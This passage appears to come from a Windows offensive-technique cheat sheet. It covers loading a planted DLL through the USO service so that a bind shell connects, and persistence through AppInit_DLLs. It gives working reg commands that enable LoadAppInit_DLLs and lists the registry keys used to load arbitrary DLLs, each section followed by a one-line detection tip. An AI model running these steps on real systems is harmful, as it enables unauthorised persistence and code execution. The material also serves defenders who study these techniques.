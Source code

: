 - **UsoDllLoader** *(optional)*
It's a stripped-down version of usoclient.exe. It can be run as a regular user to interact with the USO service and have it load windowscoredeviceinfo.dll. Then, it will try to connect to the bind shell. In case of errors, please read the "Known issues" section.

```bash
# 1. Copy WindowsCoreDeviceInfo.dll to C:\Windows\System32\
# 2. Use usoclient as a regular user
usoclient
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor the usage of usoclient

#### AppInit DLLs

The AppInit_DLLs infrastructure provides an easy way to hook system APIs by allowing custom DLLs to be loaded into the address space of every interactive application.

Starting in Windows 8, the AppInit_DLLs infrastructure is disabled when secure boot is enabled. This is because *"The AppInit_DLLs mechanism is not a recommended approach for legitimate applications because it can lead to system deadlocks and performance problems."* cc [Microsoft's documentation](https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls#summary)

```bash
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecureBoot\State /v UEFISecureBootEnabled
Confirm-SecureBootUEFI (Require privileges)
```

If is it not enabled or the system is inferior as Windows, we can created a malicious DLL.

First, we need to enable LoadAppInit_DLLs

```bash
# 32-bit system
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v "LoadAppInit_DLLs" /t REG_DWORD /d 1 /f
# 64-bit system
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v "LoadAppInit_DLLs" /t REG_DWORD /d 1 /f
```

Registry Key for Arbitrary DLL via AppInit - 32bit and 64bit

```bash
# 32-bit system
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\WindowsAppInit_DLLs
# 64-bit system
HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```

To eliminate these issues Didier Stevens developed a DLL which will check the configuration file called "LoadDLLViaAppInit.bl.txt" in order to determine which processes will load the arbitrary DLL.

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor changes towards the registry keys listed aboves
